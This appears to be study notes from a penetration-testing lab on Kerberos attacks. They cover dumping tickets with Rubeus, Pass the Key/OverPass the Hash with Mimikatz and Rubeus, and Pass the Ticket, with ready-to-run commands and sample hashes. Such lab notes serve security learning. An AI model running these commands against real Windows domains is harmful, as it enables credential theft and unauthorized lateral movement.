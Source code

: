 Also we can use Rubeus tool to dump all the tickets (if we are running local administrator)

- `Rubeus.exe dump /nowrap`→ Tickets are encoded in base64 format

## **Pass the Key or OverPass the Hash**

- idea is to forge our own tickets.
- traditionally `PtH` technique involves reusing an NTLM password hash that doesnot touch Kerberos
- but Pass the key or overpass the hash approach converts a hash/key for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`

→ For this we need to have `user’s hash`, we can get it using mimikatz module `sekurlsa::ekeys`

### **Mimikatz - Pass the Key or OverPass the Hash**

- `sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f`

this will give us `cmd.exe` through which we can request access to any service we want in the context of the target user.

### **Rubeus - Pass the Key or OverPass the Hash**

- `Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`
  we are using `asktgt` module and `aes256` hash we can also use `/rc4`, `/aes128`, `/aes256`, or `/des` hash
  we get ticket in `base64` format
    <aside>
    💡 **Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.
    
    </aside>
    
    **Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."


---

---

---

---

Now we have the Kerberos tickets, we can use them to move laterally within an environment

# **Pass the Ticket (PtT)**

### **Rubeus Pass the Ticket**

We can directly use the generated ticket using this command

- `Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt`
  which displays  `Ticket successfully imported!`.
- or we can manually import `.kirbi` ticket file using this command
  `Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`
- We can also use the base64 output from `Rubeus` or convert `.kirbi` to base64 to perform the pass the ticket attack.
  `Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6AD........asfasdf==`
  - convert `.kirbi` file to base64 using
    `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname